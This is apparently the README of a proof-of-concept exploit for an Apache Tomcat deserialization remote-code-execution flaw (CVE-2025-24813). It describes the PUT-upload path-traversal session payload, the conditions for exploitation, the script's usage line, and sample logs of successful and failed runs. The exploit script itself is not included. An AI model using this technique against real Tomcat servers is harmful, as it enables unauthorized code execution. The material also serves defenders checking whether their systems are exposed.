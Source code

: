 # CVE-2025-24813 Apache Tomcat RCE PoC
Proof of Concept (PoC) exploiting CVE-2025-24813, a Remote Code Execution (RCE) vulnerability in Apache Tomcat. The vulnerability allows an attacker to upload a malicious serialized payload to the server, leading to arbitrary code execution via deserialization when specific conditions are met.
---

## Description

**CVE-2025-24813** is a theoretical RCE vulnerability in Apache Tomcat that leverages improper handling of uploaded session files and deserialization mechanisms. By uploading a crafted payload to a writable directory (e.g., `/uploads/../sessions/`), an attacker can trigger deserialization, resulting in the execution of arbitrary commands on the target server.

---

## Prerequisites for Successful Exploitation

For this PoC to successfully exploit the vulnerability, the following conditions must be met:

1. **Apache Tomcat Version**: The target must be running a vulnerable version of Apache Tomcat.
2. **Writable Directory**: The server must allow PUT requests
3. **Deserialization Trigger**: The server must process the uploaded session file (e.g., via a GET request to `/index.jsp`) and trigger deserialization of the payload.
4. **Java Environment**: The attacker’s machine must have Java installed to generate payloads using `ysoserial` or compile Java-based payloads.
5. **ysoserial (Optional)**: If using the `ysoserial` payload type, the `ysoserial.jar` file must be available locally.

---

```
python CVE-2025-24813.py <target_url> [options]
```

## Output
* Successful Exploit:
```
[+] Server is writable via PUT: http://localhost:8081/check.txt
[*] Session ID: absholi7ly
[+] Payload generated successfully: payload.ser
[+] Payload uploaded with status 409 (Conflict): http://localhost:8081/uploads/../sessions/absholi7ly.session
[+] Exploit succeeded! Server returned 500 after deserialization.
[+] Target http://localhost:8081 is vulnerable to CVE-2025-24813!
[+] Temporary file removed: payload.ser
```

* Failed Exploit:
```
[+] Server is writable via PUT: http://localhost:8081/check.txt
[*] Session ID: absholi7ly
[+] Payload generated successfully: payload.ser
[-] Payload upload failed: http://localhost:8081/uploads/../sessions/absholi7ly.session (HTTP 403)
[-] Target http://localhost:8081 does not appear vulnerable or exploit failed.
[+] Temporary file removed: payload.ser
```
